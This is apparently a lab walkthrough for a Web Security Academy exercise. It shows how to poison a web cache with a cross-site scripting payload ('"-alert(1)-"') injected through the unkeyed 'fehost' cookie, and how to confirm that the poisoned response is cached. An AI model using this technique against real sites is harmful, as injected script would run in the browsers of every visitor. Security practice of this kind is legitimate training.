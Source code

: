 ```bash

To

GET /?cb=1234 HTTP/1.1

Change:

Cookie: session=jql43W1505VvJoWw3x54qw13xgUH0Q6M; fehost=prod-cache-01

To

Cookie: session=jql43W1505VvJoWw3x54qw13xgUH0Q6M; fehost="-alert(1)-"

Response:

<script>
	data = {
		"host":"0a9c00110483decbc0288a9e00e300d9.web-security-academy.net",
		"path":"/",
		"frontend":""-alert(1)-""
	}
</script>

Change:

GET /?cb=1234 HTTP/1.1

To

GET / HTTP/1.1

Send
Ensure the response includes:

X-Cache: hit

Go to:

https://0a9c00110483decbc0288a9e00e300d9.web-security-academy.net/

Refresh the page

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603015044.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603015202.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220603015806.png)
